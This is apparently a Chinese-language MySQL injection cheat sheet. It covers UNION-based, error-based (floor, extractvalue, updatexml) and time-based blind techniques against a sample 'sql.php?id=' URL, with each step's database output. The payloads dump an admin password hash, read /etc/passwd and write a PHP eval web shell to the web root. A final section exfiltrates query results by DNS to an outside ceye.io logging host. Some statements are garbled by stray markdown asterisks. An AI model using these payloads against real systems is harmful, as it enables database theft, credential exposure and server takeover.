


# UNION 联合注入-有显示位时使用

## 0x00 概要

在页面有显示位的情况下使用

## 0x01 测试表数据

```plain
# 测试表数据: test;

mysql> select * from test;
+----+----------+------+---------+
| id | test     | map  | content |
+----+----------+------+---------+
|  1 | 1        | NULL | NULL    |
| 29 | t        | NULL | NULL    |
| 28 | -        | NULL | NULL    |
| 27 | a        | NULL | NULL    |
|  5 | 2        | NULL | NULL    |
| 26 | 9        | NULL | NULL    |
| 25 | 8        | NULL | NULL    |
| 24 | 7        | NULL | NULL    |
| 23 | 6        | NULL | NULL    |
| 22 | 5        | NULL | NULL    |
| 21 | 4        | NULL | NULL    |
| 14 | 3        | NULL | NULL    |
| 20 | 4        | NULL | NULL    |
| 19 | security | NULL | NULL    |
| 18 | 4        | NULL | NULL    |
+----+----------+------+---------+
15 rows in set (0.00 sec)
# 测试管理表: tdb_admin;

mysql> select * from tdb_admin;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

## 0x02 查看列数

web语句: http://www.test.com/sql.php?id=1 order by 4

数据库语句: select * from test where id=1 order by 4

## 0x03 爆数据库版本

web语句: http://www.test.com/sql.php?id=-1 union select 1, @@VERSION, 3, 4

数据库语句: select * from test where id=-1 union select 1, @@VERSION, 3, 4

```plain
mysql> select * from test where id=-1 union select 1, @@VERSION, 3, 4;
+----+--------+------+---------+
| id | test   | map  | content |
+----+--------+------+---------+
|  1 | 5.5.53 | 3    | 4       |
+----+--------+------+---------+
1 row in set (0.00 sec)
```

## 0x04 爆当前连接用户

web语句: http://www.test.com/sql.php?id -1 union select 1, user(), 3, 4

数据库语句: select * from test where id=-1 union select 1, user(), 3, 4;

```plain
mysql> select * from test where id=-1 union select 1, user(), 3, 4;
+----+----------------+------+---------+
| id | test           | map  | content |
+----+----------------+------+---------+
|  1 | root@localhost | 3    | 4       |
+----+----------------+------+---------+
1 row in set (0.00 sec)
```

## 0x05 爆当前连接的数据库

web语句: http://www.test.com/sql.php?id=-1 union select 1, database(), 3,

数据库语句: select * from test where id=-1 union select 1, database(), 3, 4;

```plain
mysql> select * from test where id=-1 union select 1, database(), 3, 4;
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | test | 3    | 4       |
+----+------+------+---------+
1 row in set (0.00 sec)
```

## 0x06 爆库名

注意: LIMIT 0 修改会显示其他库名

例如:

修改为0 就是出1库

修改为1 就是出2库

web语句: http://www.test.com/sql.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1


数据库语句: select * from test where id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1

```plain
mysql> select * from test where id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1;
+----+-------+------+---------+
| id | test  | map  | content |
+----+-------+------+---------+
|  1 | 74cms | 3    | 4       |
+----+-------+------+---------+
1 row in set (0.00 sec)
```

## 0x07 爆表名

注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据

web语句: http://www.test.com/sql.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema=DATABASE() limit 0,1;

数据库语句: select * from test where id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema=DATABASE() limit 0,1;

```plain
mysql> select * from test where id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema=DATABASE() limit 0,1;
+----+-----------+------+---------+
| id | test      | map  | content |
+----+-----------+------+---------+
|  1 | tdb_admin | 3    | 4       |
+----+-----------+------+---------+
1 row in set (0.00 sec)
```

## 0x08 暴字段

table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名

limit 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password

web语句: http://www.test.com/sql.php?id=-1 union select 1,column_name,3,4 from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1,1;

数据库语句: select * from test where id = -1 union select 1,column_name,3,4 from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1,1;

```plain
mysql> select * from test where id=-1 union select 1,column_name,3,4 from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1,1;
+----+----------+------+---------+
| id | test     | map  | content |
+----+----------+------+---------+
|  1 | username | 3    | 4       |
+----+----------+------+---------+
1 row in set (0.01 sec)
```

## 0x09 爆内容

注意: limit 0 表示要显示那一条数据

limit 0 表示第一条

limit 1 表示第二条

web语句: http://www.test.com/sql.php?id=-1 union select 1,concat(0x7e,id,0x3a,username,0x3a,password,0x7e),3,4 from test.tdb_admin limit 0,1

数据库语句: select * from test where id=-1 union select 1,concat(0x7e,字段名,0x3a,字段名,0x3a,字段名,0x7e),3,4 from 库名.表名 limit 0,1;

```plain
mysql> select * from test where id=-1 union select 1,concat(0x7e,id,0x3a,username,0x3a,password,0x7e),3,4 from test.tdb_admin limit 0,1;
+----+--------------------------------------------+------+---------+
| id | test                                       | map  | content |
+----+--------------------------------------------+------+---------+
|  1 | ~1:admin:7fef6171469e80d32c0559f88b377245~ | 3    | 4       |
+----+--------------------------------------------+------+---------+
1 row in set (0.00 sec)
```

# MySQL 报错注入方法与说明

报错注入主要用于在页面中没有显示位，但是使用了**echo mysql_error()**;输出了错误信息时使用。

## 0x00 十种MySQL报错注入

1. floor()
   常用报错注入方法之一
   数据库语句：select * *from test where id=1 and (select 1 from (select count(**),concat(VERSION(),floor(rand(0)*2))x from information_schema.tables group by x)a);

1. extractvalue()
   常用报错注入方法之一
   mysql5.1.5开始可用
   数据库语句：select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

1. updatexml()
   常用报错注入方法之一
   mysql5.1.5开始可用
   数据库语句：select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

1. geometrycollection()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and geometrycollection((*select * *from*(select * from(select user())a)b));

1. multipoint()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and multipoint((*select * *from*(select * from(select user())a)b));

1. polygon()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and polygon((*select * *from*(select * from(select user())a)b));

1. multipolygon()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and multipolygon((*select * *from*(select * from(select user())a)b));

1. linestring()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and linestring((*select * *from*(select * from(select user())a)b));

1. multilinestring()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and multilinestring((*select * *from*(select * from(select user())a)b));

1. exp()
   版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from*

## 0x01 MySQL 报错注入之(floor报错注入)

### 0x01 爆数据库版本

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> select * from test where id =1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '~5.5.53~1' for key 'group_key'
```

### 0x02 爆当前连接用户

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> select * from test where id =1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '~root@localhost~1' for key 'group_key'
```

### 0x03 爆当前连接的数据库

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> select * from test where id =1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);

ERROR 1062 (23000): Duplicate entry '~test~1' for key 'group_key'
```

### 0x04 爆库名

注意: LIMIT 0 修改会显示其他库名

例如:

修改为0 就是出1库

修改为1 就是出2库

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句-爆库名1: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句-爆库名2: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 1,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> select * from test where id =1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '~information_schema~1' for key 'group_key'
```

### 0x05 爆表名

注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据

注意: LIMIT 0 修改会爆出不同的表名

例如:

修改为0 就是出1表

修改为1 就是出2表

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句-爆当前库的第一张表名: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句-爆当前库的第二张表名: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 1,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> select * from test where id =1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 1,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);

ERROR 1062 (23000): Duplicate entry '~tdb_goods~1' for key 'group_key'
```

### 0x06 暴字段

table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名


limit 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password

web语句: http://www.test.com/sql.php?id=1 and(select 1 from(select count(*)*,concat((select (select (select concat(0x7e,column_name,0x7e))) from information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句-爆test库 tdb_admin表的字段名:

select * *from test WHERE id = 1 and(select 1 from(select* count(*),concat((select (select (select concat(0x7e,column_name,0x7e))) from information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> SELECT * FROM test WHERE id = 1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,column_name,0x7e))) from information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '~id~1' for key 'group_key'
```

### 0x07 爆内容

注意: limit 0 表示要显示那一条数据

limit 0 表示第一条

limit 1 表示第二条

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (select concat(0x7e,字段名,0x3a,字段名,0x3a,字段名,0x7e))) from 库名.表名 limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句: select * *from test WHERE id = 1 and(select 1 from(select* count(*),concat((select (select (select concat(0x7e,字段名,0x3a,字段名,0x3a,字段名,0x7e))) from 库名.表名 limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> SELECT * FROM test WHERE id = 1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,id,0x3a,username,0x3a,password,0x7e))) from test.tdb_admin limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '~1:admin:7fef6171469e80d32c0559f88b377245~1
' for key 'group_key'
```

**其他报错类似**

# **MySQL 时间盲注3种通用函数**

## 0x01 benchmark 函数

语句：select benchmark(10000000,sha(1));

```plain
mysql> select benchmark(10000000,sha(1));
+----------------------------+
| benchmark(10000000,sha(1)) |
+----------------------------+
|                          0 |
+----------------------------+
1 row in set (3.59 sec)
```

## 0x02 sleep 函数

mysql 5.0.12以上版本支持

语句：select sleep(5);

```plain
mysql> select sleep(5);
+----------+
| sleep(5) |
+----------+
|        0 |
+----------+
1 row in set (5.00 sec)
```

## 0x03 笛卡尔积

这种方法又叫做heavy query，可以通过选定一个大表来做笛卡儿积，但这种方式执行时间会几何倍数的提升，在站比较大的情况下会造成几何倍数的效果，实际利用起来非常不好用。

注意：有大表的时候，不要连接那么多的表，不然会卡

语句一：SELECT count(*) FROM information_schema.columns A, information_schema.columns B;

语句二：SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C;

```plain
mysql> SELECT count(*) FROM information_schema.columns A, information_schema.columns B;
+-----------+
| count(*)  |
+-----------+
| 158432569 |
+-----------+
1 row in set (3.46 sec)
```

# MySQL 读-写文件

## 0x00 注意点

注意: 读与写操作,要求是当前连接的mysql用户为root权限才行！

## 0x01 读写文件操作讲解

5.5.53之前的版本是secure_file_priv变量 默认为空 所以直接就可以使用

**load_file函数**与**into outfile函数**只有**满足以下条件可以使用**:

1. 当前连接的mysql用户为root权限
2. 文件权限: chmod a+x pathtofile
3. 文件大小: 必须小于max_allowed_packet

注意:  mysql版本,低于5.5时满足上面3个条件即可使用,高于5.5时mysql新出了一个secure-file-priv字段

1. secure-file-priv字段 :  secure-file-priv参数是用来限制LOAD DATA, SELECT ... > OUTFILE, and LOAD_FILE()传到哪个指定目录的。
2. ure_file_priv的值为null ，表示限制mysqld 不允许导入|导出
3. 当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
4. 当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

- 查看自己是否有读取权限sql: select (select count(*) from mysql.user)>0
- 如果结果返回正常,说明具有读写权限
- 如果返回错误,应该是管理员给数据库账户降权

查看secure-file-priv参数的值: show global variables like '%secure%';

```plain
mysql> show global variables like '%secure%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv | NULL  |
+------------------+-------+
2 rows in set (0.00 sec)
```

- 默认的为NULL。即不允许导入导出
- 为了实验能正常做下去
- 修改mysql.ini 文件,在[mysqld] 下加入
- windows下: 修改my.ini 在[mysqld]内加入secure-file-priv = ''
- linux下: 修改my.cnf 在[mysqld]内加入secure_file_priv = ''
- 保存,然后重启mysql即可

## 0x02 INTO OUTFILE函数 与 INTO DUMPFILE函数 差别

INTO OUTFILE函数写文件时会在每一行的结束自动加上换行符

INTO DUMPFILE函数在写文件会保持文件得到原生内容，这种方式对于二进制文件是最好的选择

## 0x03 load_file函数读文件

select load_file('/etc/passwd');

十六进制读: select load_file(0x2F6574632F706173737764)

## 0x04 into outfile 写文件

还有一个需要注意的点，在linux写shell的时候需要找一个777目录，如果没有777目录是无法成功写入的！！！

### 0x04.1 写入方法1

select '这里写木马' into outfile '网站绝对路径/xxx.php'

### 0x04.2 写入方法2

select * from tdb_goods where goods_id=1 into outfile "网站绝对路径/xxx.php" LINES STARTING BY '<?php phpinfo()?>'

- LINES STARTING BY '写入的内容' = 设置每行数据开头的字符，可以为单个或多个字符。默认情况下不使用任何字符。
- LINES TERMINATED BY '写入的内容' = 设置每行数据结尾的字符，可以为单个或多个字符。默认值是"\n"。

## 0x05 利用mysql日志写文件

可绕过 secure_file_priv 不管 secure_file_priv 设置的是啥，都可以直接使用这个方法绕过，生成文件

利用条件:

1. root权限 或是 当前登录账号能访问 performance_schema 库
2. 知道网址绝对路径

还有一个需要注意的点，在linux写shell的时候需要找一个777目录，如果没有777目录是无法成功写入的！！！

如果当前登录账号能访问 performance_schema 库那么就大概率可以shell了

- SET GLOBAL general_log=ON;
- SET GLOBAL general_log_file='网站绝对路径/xxx.php';
- select '<?php eval($_POST[1])?>';
- SET GLOBAL general_log=OFF;

## 0x06 注入导出shell

web: http://127.0.0.1/xx.php?id=-1 union select 1,2,3,4,'<?php eval($_POST[1])?>',5 into outfile '绝对路径' -- a

select * from tdb_goods where goods_id=-1 union select 1,2,3,4,'<?php eval($_POST[1])?>',5 into outfile '绝对路径' -- a

例子: select * from tdb_goods where goods_id id=-1 union select 1,2,3,4,'<?php eval($_POST[1])?>',5 into outfile '/var/www/html/1.php' -- a

## 0x07 INTO DUMPFILE 写文件

sql: select 1,2,3,4,'<?php eval($_POST[1])?>',5 INTO DUMPFILE 'E:/WWW/111111.php' -- a

## 0x08 INTO DUMPFILE 写文件2

不能union的写shell方法

```plain
select * from 表 WHERE id=1 into outfile "F:\1.php" lines terminated by "<?php echo 1; ?>"

执行完毕以后会在 F:\1.php 生成 111111.php 并且里面 <?php echo 1; ?>
```






# MySQL dns注入

## 0x00 概要

测试一些站点时，大部分都是没有回显的，这时我们一般自己写脚本来猜数据，但是会产生大量的请求导致IP被ban。

所以这时我们就可以把 select 出来的数据发给dns服务器，利用dns解析产生日志来查看数据

原理就是DNS在解析的时候会留下日志，然后我们通过dns平台来读取多级域名的解析日志，来获取信息

简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息。

免费好用 dnslog平台：http://ceye.io/

## 0x01 权限查看

通过DNS log盲注要用到 load_file() 函数，所以一般要是root权限,并且要 load_file() 函数可以正常使用。

- mysql执行：show variables like '%secure%';
- 查看load_file()可以读取的磁盘。

1. 当secure_file_priv为空，就可以读取全部磁盘的文件。
2. 当secure_file_priv为G:\，就可以读取G盘的文件。
3. 当secure_file_priv为null，load_file就不能加载文件。

```plain
mysql> show variables like '%secure%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv |       |
+------------------+-------+
2 rows in set (0.00 sec)
```

## 0x02 my.ini 修改

本地测试时，如果权限不够可以修改一下

1. 打开my.ini
2. 搜索一下secure_file_priv
3. 有就修改为 secure_file_priv=""
4. 没有就添加这一句：secure_file_priv=""
5. 重新mysql

## 0x03 测试

```plain
记忆方式：select LOAD_FILE(CONCAT('\\\\',(select payload),'.11b7kdti.ceye.io\\abc'));
实战：select LOAD_FILE(CONCAT('\\\\',(select hex(user())),'.11b7kdti.ceye.io\\abc'));;
```

## 0x04 注意点

1. 域名前缀长度限制在63个字符，解决办法是用mid()之类的函数来获取。
2. 域名前缀不支持一些特殊字符，如*,解决办法是用hex()或者其他加密函数，获取到数据后再解密。